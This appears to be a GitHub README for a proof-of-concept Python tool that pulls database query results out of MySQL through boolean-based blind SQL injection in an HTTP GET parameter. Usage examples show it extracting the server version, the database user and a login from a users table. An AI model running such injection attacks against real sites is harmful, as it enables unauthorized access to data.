# mysql_bb
Boolean-based blind SQL injection Proof of Concept for MySQL.

This script attempts to retrieve result of given SQL query by making boolean-based blind injection into supplied HTTP GET URI.
## Usage example
Be sure you have no errors in SQL syntax, otherwise it may lead to false negative results
```bash
python3 mysql_bb_poc.py "http://localhost?param=" "select version()"
5.5.47-0+deb8u1
(+) done!
python3 mysql_bb_poc.py "http://localhost?param=" "select user()"
root@localhost
(+) done!
python3 mysql_bb_poc.py "http://localhost?param=" "select login from users"
admin
(+) done!
```
